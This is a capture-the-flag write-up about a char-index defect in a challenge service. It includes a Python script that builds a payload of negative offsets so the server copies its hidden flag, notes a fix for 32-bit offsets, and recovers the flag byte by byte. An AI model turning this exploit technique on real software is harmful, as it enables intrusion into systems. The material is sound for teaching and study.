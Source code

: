 We ran the program locally under a debugger to discover that `flag` is located
128 bytes before `bin_by_hex`. Subtract the "flag{" prefix, and the offset for
the 44 byte hexadecimal string is at offset -123. The following code generates
an input which should exploit the defect:

```python
#!/usr/bin/env python
import sys

start = -123

# Python doesn't support chr(-x), so do unsigned -> signed conversion.
def twos_comp(n):
    return 256 + n

# Generate a flag which exploits the char-index defect. This flag should always
# work, even though it is an invalid format.
# In this code, a flag is a list of 44 hexadecimal bytes (strings of length 2)
def generate_flag():
    s = twos_comp(start)
    l = []
    # This loop causes server to copy the hidden flag; instead of expanding hex
    for i in xrange(44):
        l += ['0' + chr(s + i)] # Put a zero in the high order nibble
                                # Place negative offset of this flag char in low-order
    return l
  
# Format the flag and encode it for the wire
def encode_flag(f):
    return 'flag{'.encode('hex') + \
           ''.join(f) + \
           '}'.encode('hex') + '\n'

sys.stdout.write(encode_flag(generate_flag()))
```

The output ends up looking like: `666c61677b0\x850\x860\x870\x88...` where
`666c61677b` is the encoded "flag{", the zero nibbles corresponds to `value1`,
and the 0x85,0x86,... are negative integers corresponding to `value2`. This
leads to populating `given_flag` as:
```c
for (i=0; i<50; i++) { given_flag[i] = (0<<4) | flag[i] }
```

Sure enough, this payload works locally, but it fails remotely. Is the system
employing ASLR? Is the layout static, but different somehow? We could write
code to guess the offset, but let's just see what happens if we assume the
system is 32-bit. Compile with `-m32` and we see the offset is now 64 bytes
instead of 128. Therefore, we change start from -123 to -59. This change works
against the server and we now see: "Yaaaay! You guessed the flag correctly! But
do you still remember what you entered? If not, feel free to try again!"

We don't have the flag, but we do have a way to test each byte in isolation. We
start with the payload we generated, and try all hexadecimal values [0-9a-f]
for the first character until the correct one is found. Then, repeat with the
second character, until the last (44th) character is verified. Therefore, the
problem space is greatly reduced from 16^44 to 16*44; 50 orders of magnitude.
